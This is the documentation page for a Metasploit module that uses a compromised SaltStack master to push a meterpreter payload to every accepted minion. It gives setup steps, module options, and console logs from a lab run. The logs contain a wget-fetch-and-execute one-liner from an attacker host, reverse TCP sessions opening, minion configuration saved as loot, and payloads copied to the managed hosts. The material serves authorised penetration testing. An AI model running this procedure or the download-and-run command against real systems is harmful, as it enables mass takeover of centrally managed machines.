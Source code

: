 ## Vulnerable Application

This exploit module uses saltstack salt to deploy a payload and run it
on all targets which have been selected (default all).
Currently only works against nix targets.

### Vulnerable Host

A vulnerable host install can be found in this [Docker environment](https://github.com/vulhub/vulhub/blob/master/saltstack/CVE-2020-11651/docker-compose.yml).

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get an initial shell on the box
1. Do: `use exploit/linux/local/saltstack_salt_minion_deployer`
1. Do: `set session [#]`
1. Do: `run`
1. You should get sessions on all the targeted hosts

## Options

### SALT

Location of salt-master executable if not in a standard location. This is added to a list of default locations
which includes `/usr/bin/salt-master`, `/usr/local/bin/salt-master`. Defaults to ``

### MINIONS

Which minions to target. Defaults to `*`

### WritableDir

A directory on the compromised host we can write our payload to. Defaults to `/tmp`

### TargetWritableDir

A directory on the target hosts we can write and execute our payload to. Defaults to `/tmp`

### CALCULATE

This will calculate how many hosts may be exploitable by using Ansible's ping command.

### ListenerTimeout

How many seconds to wait after executing the payload for hosts to call back.
If set to `0`, wait forever. Defaults to `60`

## Scenarios

### Minion 3002.2 on Ubuntu 20.04

Get initial access to the system. In this case, root was required to execute salt commands successfully.

```
resource (salt_deploy.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (salt_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (salt_deploy.rb)> set srvport 8181
srvport => 8181
resource (salt_deploy.rb)> set target 7
target => 7
resource (salt_deploy.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (salt_deploy.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8181/hvy2Ol
[*] Server started.
[*] Run the following command on the target machine:
wget -qO exVJILEV --no-check-certificate http://1.1.1.1:8181/hvy2Ol; chmod +x exVJILEV; ./exVJILEV& disown
[*] 3.3.3.3    web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 3.3.3.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 3.3.3.3:45200) at 2023-12-16 09:59:02 -0500
```

```
resource (salt_deploy.rb)> use exploit/linux/local/saltstack_salt_minion_deployer
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (salt_deploy.rb)> set session 1
session => 1
resource (salt_deploy.rb)> set verbose true
verbose => true
resource (salt_deploy.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (salt_deploy.rb)> set lport 9996
lport => 9996
[msf](Jobs:1 Agents:0) exploit(linux/local/saltstack_salt_minion_deployer) > 

[msf](Jobs:1 Agents:1) exploit(linux/local/saltstack_salt_minion_deployer) > run
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/local/saltstack_salt_minion_deployer) > 
[*] Started reverse TCP handler on 1.1.1.1:9996 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] /tmp is writable, and salt-master executable found
[+] The target is vulnerable.
[*] Attempting to list minions
[*] minions:
- mac_minion
- salt-minion
- window-salt-minion
minions_denied: []
minions_pre: []
minions_rejected: []
[+] 3.3.3.3:45200 - minion file successfully retrieved and saved to /root/.msf4/loot/20231216100004_default_3.3.3.3_saltstack_minion_890818.yaml
[+] Minions List
============

 Status    Minion Name
 ------    -----------
 Accepted  mac_minion
 Accepted  salt-minion
 Accepted  window-salt-minion

[+] 3 minions were found accepted, and will attempt to execute payload. Waiting 10 seconds incase this isn't optimal.
[*] Writing '/tmp/E76Azw' (336 bytes) ...
[*] Copying payload to minions

[*] Executing payloads
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:9996 -> 2.2.2.2:36850) at 2023-12-16 10:00:46 -0500
```
